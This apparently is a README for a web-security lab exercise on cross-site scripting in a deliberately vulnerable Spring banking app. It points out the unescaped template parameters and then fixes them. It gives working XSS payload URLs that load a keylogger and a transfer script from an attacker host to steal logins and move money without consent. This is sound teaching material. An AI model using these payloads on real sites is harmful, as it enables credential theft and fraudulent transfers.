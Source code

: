 # Exercise 2 - XXS 

Exercise to help you understand XSS and its mitigations

## Setup and Start Applications

1. check out exercise2 
   * from command line: 'git checkout exercise2'
1. start the v-bank-app in debug mode
   * with maven command:'mvn clean spring-boot:run -f ./v-bank-app/pom.xml'
1. start the attacker-app
   * woth maven command: 'mvn clean spring-boot:run -f ./attacker-app/pom.xml'
   
## Search for XSS vulnerabilities

Hints:
* This app is a rather traditional multi page application with not much Ajax/Javascript magic. Therefore it is (mostly) susceptible to source based XSS vulnerabilities.
* Look for reflected XSS vulnerabilities where request parameters are directly written to the HTML output (page.tag is template used for all pages)
* Look for stored XSS vulnerabilities where form values are saved without validation/encoding/sanitization and then / or printed without escaping

Present vulnerabilities:
* page.tag template prints a number of requests parameters into the HTML without escaping:
  * *error* : `<div ...>${error}</div>`
  * *info* : `<div ...>${info}</div>` 
  * *message* : `<div ...>${message}</div>`
* *transfer.jsp* and *BankController.doTransfer(...)* save the transfer details without validation/etc. and *history.jsp* displays them w/o escaping

## Exploit to understand
1. Test reflected XSS in login page. You should get an alert pop-up with '1' displayed as the javascript in the request parameter executes: http://vbank.0.0.0.0.xip.io:8080/login?info=%3Cscript%3Ealert(1)%3C/script%3E 
1. Exploit stored XSS in login page:
   * As Alice send Bob the login link with installs a keylogger by exploiting the vulnerability: 
     http://vbank.0.0.0.0.xip.io:8080/login?info=%3Cscript%20src=%22http://attack.0.0.0.0.xip.io:9090/js/keylog.js%22%3E%3C/script%3E 
   * the keylogger send each keystroke to the attack app, the logged keystrokes you can see at http://attack.0.0.0.0.xip.io:9090/viewlog (do not let the browser autofil the form! ...because there are no keystrokes then)
   * This way Alice can steal Bob's login credentials. Even though the keylogger and the log viewer app are by far no perfect
1. Test stored XSS 
   * go to the transfer page and make a transfer to any valid account (i.e. 2-123456-22) with the note '<script>alert(2)</script>'
   * then go to the history page where you should get an alert pop-up with '1' displayed as the javascript entered in the note filed executes.
1. Exploit stored XSS
   * as Alice (alice / h1alice) you know Bob's account number (1-123456-11) and you will transfer him a little amount with the note including a malicious javascript posting a transfer (and overcoming CSRF protection by including the token)
     * The attack script is at http://attack.0.0.0.0.xip.io:9090/js/attack.js; use the method *transfer(formname, fromAccount, toAccount, amount, currency, action)* in the note. 
     * For example: `<script src="http://attack.0.0.0.0.xip.io:9090/js/attack.js"></script><script>transfer("fromBob1","1-123456-11","3-123456-33","1000","CHF")</script>`
      * Please transfer 1 CHF to Bob's account with the above note.
   * As Bob logs in and reviews his transactions the malicious script included in Alice's transfer executes and transfers Alice a larger amount without Bob's consent.
     * login as Bob (bob / h3ll0bob) and go to the history page (by clickin on the account number) 
     * the malicious javascript (XSS) should be loaded from the database and executed
     * if you refresh the page you sould see the transaction
  
## Mitigations:
  * validate input
  * encode text input (i.e. with HTML encoding)
  * sanitize text/HTML input (remove potentially dangerous char sequences)
  * escape output (replace control characters into renderable counterparts that are not interpreted as controls/commands by the parser)
  * use secure content policy headers to control which scripts the browser can execute

## Fix
* Escape output in *page.tag* and *history.jsp*:
For JSP please use c:out tag; you may explicitly set the escapeXml to true `<c:out value="${variable}" escapeXml=true />`
* Validate/encode input in *BankController.doTransfer(...)*

```java
public class BankController {

    private static final Collection<String> SUPPORTED_CURRENCIES = Arrays.asList("CHF", "USD", "GBP", "EUR");

    private static final String ACCOUNT_NO_PATTERN = "^\\d{1}?-\\d{6}?-\\d{2}?$";

    ...
    @RequestMapping(value = "/doTransfer", method = RequestMethod.POST)
    public ModelAndView doTransfer(@ModelAttribute Transaction transaction, ModelMap model) {
        //only execute transfer if the transaction data is valid
        if (validateTransaction(transaction, model)) {
            //note is free text property, we convert it to HTML encoding so that it is safe(r) to handle 
            String encodedNote = Encode.forHtmlContent(transaction.getNote());
            if (accountService.transfer(transaction.getFromAccountNo(), transaction.getToAccountNo(), transaction.getAmount(),
                    transaction.getCurrency(), encodedNote)) {
                model.addAttribute("info", "Transaction was completed.");
            } else {
                model.addAttribute("info", "Transaction is pending.");
            }
            return new ModelAndView("redirect:/", model);
        } else {
            return new ModelAndView("transfer", model);
        }
    }
    
    ...

    private boolean validateTransaction(Transaction transaction, ModelMap modelMap) {
        boolean valid = true;
        try {
            validateAccountNo(transaction.getFromAccountNo());
        } catch(ValidationException e) {
            modelMap.addAttribute("fromAccountNoMsg", e.getMessage());
            valid = false;
        }
        try {
            validateAccountNo(transaction.getToAccountNo());
        } catch(ValidationException e) {
            modelMap.addAttribute("toAccountNoMsg", e.getMessage());
            valid = false;
        }
        if (!SUPPORTED_CURRENCIES.contains(transaction.getCurrency())) {
            modelMap.addAttribute("currencyMsg", "Currency not supported!");
            valid = false;
        }
        if (transaction.getAmount() == null) {
            modelMap.addAttribute("amountMsg", "Transaction amount is required");
            valid = false;
        }
        return valid;
    }
}
```
  
You may see the solution at https://github.com/vargadan/v-bank/tree/exercise2-solution
